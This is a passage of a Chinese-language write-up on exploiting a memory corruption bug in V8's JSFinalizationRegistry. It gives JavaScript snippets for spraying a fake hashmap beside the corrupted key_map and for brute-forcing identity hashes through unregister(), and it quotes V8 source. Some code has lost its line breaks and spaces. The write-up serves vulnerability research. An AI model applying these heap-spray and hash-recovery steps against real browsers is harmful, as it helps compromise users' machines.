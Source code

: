 在这个阶段，我们已经成功破坏了内部JSFinalizationRegistry::key_map，使其相信它的容量比实际的要大。  
  
现在的目标是回收并控制多余的（伪）容量，方法是将我们自己的数据结构小心地放置在与损坏的映射直接相邻的内存中。具体来说，我们希望在内存中连续分配一个伪哈希映射，与超出范围的映射重叠key_map：  
  
```
// Store a hash in unreg_tokenp.registry = new FinalizationRegistry(gcTriggered);p.registry.register(target, undefined, unreg_token);// Spray our fake hashmap after JSFinalizationRegistry::key_mapp.spray = [];for (let i = 0; i < 1000; i++) {  p.spray.push(uint64ToFloat((BigInt(0x11) << 1n) | (0x11n << 32n)));}
```  
  
  
我们从损坏的键/值对开始，key_map将其全部初始化为undefined（V8 的标记表示中为 0x11）。这实际上模拟了内存中一个空的哈希映射。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadW4c5qzY80wNzNYbcibsDERQAcpWqY9dhbRJkYMoibZYj2ENYIxoxWqk15pl4vNbUT3jRSodR0x7kQ/640?wx_fmt=png&from=appmsg "")  
  
然而，要对这个畸形的 Map 进行任何有用的操作register()，unregister()我们需要通过它们的哈希键与条目进行交互。挑战在于这些哈希值是由 V8 随机生成的（使用GenerateIdentityHash），所以我们事先无法知道它们。  
  
但这里有个诀窍：我们不需要猜测确切的哈希值，我们可以简单地强行破解它。  
  
暴力破解有效哈希  
  
unreg_token我们的目标是恢复在调用 时赋给 的有效哈希值registry.register()。由于我们无法直接访问该哈希值（它存储在 V8 内部），因此我们将对其进行暴力破解。  
  
首先，我们生成大量对象（例如 1000 个），并期望每个对象都被分配一个不同的身份哈希值。虽然可能会发生冲突，但这对于我们的目的来说没有问题：  
  
```
// Generate 1000 empty object with hasheslet reg = new FinalizationRegistry(() => { });let tokens_with_hash = [];for (let i = 0; i < 1000; i++) {  tokens_with_hash.push({});  reg.register(tokens_with_hash[i], undefined, tokens_with_hash[i]);}
```  
  
  
现在， 中的每个对象tokens_with_hash都有一个唯一的（或几乎唯一的）哈希值。当我们unregister()使用给定的 token 调用时，V8 会在内部尝试使用 在哈希映射中查找关联的条目Object::GetHash(token)。如果找到匹配项，它会将键替换为THE_HOLE：  
  
```
bool JSFinalizationRegistry::RemoveUnregisterToken(/*...*/) {  //...  key_map->ClearEntry(entry);  //...}void Dictionary<Derived, Shape>::ClearEntry(InternalIndex entry) {  Tagged<Object> the_hole = GetReadOnlyRoots().the_hole_value();  PropertyDetails details = PropertyDetails::Empty();  Cast<Derived>(this)->SetEntry(entry, the_hole, the_hole, details);}
```  
  
  
因此，我们通过调用尝试每个令牌，unregister()直到其中一个令牌修改了损坏的内存。这就是我们检测哈希匹配的方法：  
  
```
/** Returns trueif the p.spray has been overwritten */function sprayIsCorrupted(hash) {for (let i = 0; i < p.spray.length; i++) {    const expected_value = uint64ToFloat((BigInt(hash) << 1n) | (0x11n << 32n))    if (p.spray[i] != expected_value) {      returntrue;    }  }returnfalse;}let valid_hash = -1;for (lethash = 1; hash < 0x10000; hash++) {for (let i = 0; i < p.spray.length; i++) {    p.spray[i] = uint64ToFloat((BigInt(hash) << 1n) | (0x11n << 32n));  }for (let i = 0; i < tokens_with_hash.length; i++) {    p.registry.unregister(tokens_with_hash[i]);  }  const corrupted = sprayIsCorrupted(hash);if (corrupted) {    print(`Found the hash 0x${hash.toString(16)}!`);    valid_hash = hash;    break;  }}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadW4c5qzY80wNzNYbcibsDERlviaqmQBhFdfibwQ2hFiaLOy5iaO8WR92H8pibaWfyge5MnibLdibXpNkmG4A/640?wx_fmt=png&from=appmsg "")  
  